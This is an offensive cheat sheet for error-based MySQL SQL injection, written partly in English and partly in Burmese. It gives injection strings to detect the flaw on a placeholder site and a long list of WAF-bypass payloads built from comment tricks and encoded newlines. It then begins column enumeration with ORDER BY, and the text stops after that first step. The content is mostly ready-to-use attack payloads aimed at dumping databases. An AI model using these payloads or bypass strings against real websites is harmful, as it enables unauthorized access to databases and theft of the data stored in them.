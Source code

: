 # MySQL Error based SQL Injection Cheatsheet

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the MySQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

<code>https://site.com/index.php?id=1</code>

Website load successfully.

အဲ့တာကိုကျွန်တော်တို့ အနောက်ကနေ ' လေးထည့်ပေးလိုက်ရင် အောက်ကပုံစံမျိုး error message ကျလာမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=1'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1\'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1 and 0' order by 1--+</code>

ဒီလိုထည့်လိုက်ရင်တော့ website ကပုံမှန်အတိုင်း ပြန်ပြီးအလုပ်လုပ်သွားမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=2-1</code>

Website loads successfully.

<code>https://site.com/index.php?id=-1'</code>

Error message shows up again

<code>https://site.com/index.php?id=-1)'</code>

Error message shows up again

<code>https://site.com/index.php?id=1'-- -</code>

Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1'--</code>

Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1+--+</code>

Website might loads successfuly, but it might shows error also

# Bypassing WAF to detect the vulnerability (if the first methodology didn't work)
In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

<code>https://site.com/index.php?id=1'--/**/-</code>

If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

<code>https://site.com/index.php?id=/^.*1'--+-.*$/</code>

<code>https://site.com/index.php?id=/*!500001'--+-*/</code>

<code>https://site.com/index.php?id=1'--/**/-</code>

<code>https://site.com/index.php?id=1'--/*--*/-</code>

<code>https://site.com/index.php?id=1'--/*&a=*/-</code>

<code>https://site.com/index.php?id=1'--/*1337*/-</code>

<code>https://site.com/index.php?id=1'--/**_**/-</code>

<code>https://site.com/index.php?id=1'--%0A-</code>

<code>https://site.com/index.php?id=1'--%0b-</code>

<code>https://site.com/index.php?id=1'--%0d%0A-</code>

<code>https://site.com/index.php?id=1'--%23%0A-</code>

<code>https://site.com/index.php?id=1'--%23foo%0D%0A-</code>

<code>https://site.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-</code>

<code>https://site.com/index.php?id=1'--#qa%0A#%0A-</code>

<code>https://site.com/index.php?id=/*!20000%0d%0a1'--+-*/</code>

<code>https://site.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/</code>

## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY

<code>https://site.com/index.php?id=1' order by 1-- -</code> 

This query musn't shows up error, since there is no lower number than 1

